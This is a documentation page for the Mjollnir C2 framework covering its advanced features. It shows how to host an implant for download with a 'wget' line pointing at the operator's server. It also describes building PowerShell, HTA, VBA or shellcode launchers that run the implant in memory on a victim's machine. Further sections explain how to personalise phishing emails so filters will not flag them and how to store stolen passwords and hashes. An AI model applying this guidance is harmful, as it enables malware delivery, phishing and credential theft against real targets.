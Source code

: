 # Some more advanced Mjollnir's features

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)


So far, you know how to start a listener and how to build and interact with a Chocolate. Let's see some advanced features about **Mjollnir c2**.

## Different kind of tasks

Experimenting with your first Chocolate, you accessed it by clicking on the **Dashboard** tab. However there is a better way to do that. Click on the **Tasks** tab like the following:

![](images/advanced-features/tasks.png)

You will see 4 new tabs:
* **Tasks**: allows you to see all your active Chocolates and interact with them the way you did by clicking on the **Dashboard** tab
* **Bulk task**: allows you to select a **group** of Chocolates and order them to execute a specific task
* **Batch task**: allows you to select one Chocolate and order it to execute tasks after tasks automatically
* **On registering task**: allows you to execute several tasks as soon as a Chocolate registers

Those four tabs are very usefull, and I am sure you already know when you could use them.

## Make your Chocolate downloadable

When you create a Chocolate, you may want it to be downloaded by the victim. Hopefully, this is easily feasible!

Once built, your agent will be available on the **Up/download** tab as the following:

![](images/advanced-features/updownload.png)

And thus you can access it easily. But in order to do that, you will have to set a **File server** first.

To start a **File server** you have to go to the **Listeners** tab and select **File server**, and specify the **Bind address** and **Bind port**.

![](images/advanced-features/file_server.png)

Then you should be able to download your Chocolate or some others file like:
```
wget http://IP:PORT/files/chocolate_win_http.exe
```

## Use a Launcher

So, ok it is nice to make your Chocolate downloadable, but sometimes you don't want to drop on the victim's disk your Chocolate. In that case, you would like to use **powershell**, **vba**, a **shellcode** and so on that will download your Chocolate and executes it in memory.

You can do that into Mjollnir. Select the **Launchers** tab like the following:

![](images/advanced-features/launchers.png)

You have to specify the type of the launcher you would like to use:
* powershell
* hta
* vba
* shellcode
* pe

You can use the one you want or implement one that is not listed instead.

The **launcher name** is the name of the launcher that will be available into the **Up/download** tab. So you must start a **File server** first.

By the way, you have to specify the **file server ip** and the **file server port**.

And obviously you have to indicate the name of the Chocolate that will be downloaded. The Chocolate has to be available on the **Up/download** tab.

## Did you say Phishing?

Well, you know how to create your **launcher** that will download your **Chocolate** and executes it in memory. But how to make the victim download and execute your launcher?

There is a **Phishing** tab. Let's see it:

![](images/advanced-features/phishing.png)

You can define the **campaign's name**, the **SMTP server** you want to use, as well as the **SMTP port**. 

You can define the **source email** / **source email password** that will send the phishing emails. The **display name** is the name that will appears into the victim's email box. 

You have to create an **email template** in HTTP format. You could add one attachement if needed.

The important point is the **Emails list**. The email list has a **?** next to it because it needs some explanations.

If you send, let's say, 2000 identical emails to a company, there are good chances that there will be tagged as phishing emails (well they are). But if each email is sligtly different from one to an other, perhaps user personalized, those emails will certainly not be tagged as phishing.

Knowing that, you have to create your template carefully included some \{\{TAG\}\} into it. Those \{\{TAG\}\} will also be into the **Emails lists**.

Here is an example of **template**:
```
<html>
    <body>
        Hello {\{USERNAME\}}, thank you for registering with the email: \{\{EMAIL\}\} at the date \{\{DATE\}\}

        Please submit that \{\{CODE\}\} to the application in order to validate your authentication.
    </body>
</html>
```

And here an example of **Emails list**:
```
EMAIL,USERNAME,DATE,CODE
thor@mjollnir.fr,Thor God of Thunder,01/01/1900,12345
freyja@mjollnir.fr,Freyja,02/02/1900,54321
odin@mjollnir.fr,Odin,03/03/1900,09876
```

Your phishing campaign is then availabe on the **Dashboard** tab:

![](images/advanced-features/phishing_list.png)

You can click the corresponding raw, and update your campaign before submitting it !

![](images/advanced-features/phishing_update.png)

## Save your loots

Now that you know how to propagate your Chocolate, and you get some importants informations such as **password** and **hash** of the victim machine, you may want to save them.

There is a **Loots** tab specially crafted for that:

![](images/advanced-features/loots.png)

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)